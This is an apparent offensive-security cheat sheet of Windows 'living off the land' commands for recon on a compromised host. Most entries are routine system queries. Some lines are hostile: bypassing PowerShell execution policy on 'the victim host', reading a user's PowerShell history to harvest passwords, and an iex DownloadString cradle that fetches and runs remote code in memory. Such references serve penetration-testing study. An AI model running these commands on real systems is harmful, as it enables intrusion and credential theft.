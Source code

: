# Living Off the Land

## Env Commands For Host & Network Recon

hostname
-->Prints the PC's Name

[System.Environment]::OSVersion.Version
-->Prints out the OS version and revision level

wmic qfe get Caption,Description,HotFixID,InstalledOn
-->Prints the patches and hotfixes applied to the host

ipconfig /all
-->Prints out network adapter state and configurations

set
-->Displays a list of environment variables for the current session (ran from CMD-prompt)

echo %USERDOMAIN%
-->Displays the domain name to which the host belongs (ran from CMD-prompt)

echo %logonserver%
-->Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)

## Harnessing PowerShell

Get-Module
-->Lists available modules loaded for use.

Get-ExecutionPolicy -List
-->Will print the execution policy settings for each scope on a host.

Set-ExecutionPolicy Bypass -Scope Process
-->This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we 
vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.

Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
-->With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.

Get-ChildItem Env: | ft Key,Value
-->Return environment values such as key paths, users, computer information, etc.

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
-->This is a quick and easy way to download a file from the web using PowerShell and call it from memory.

Get-host
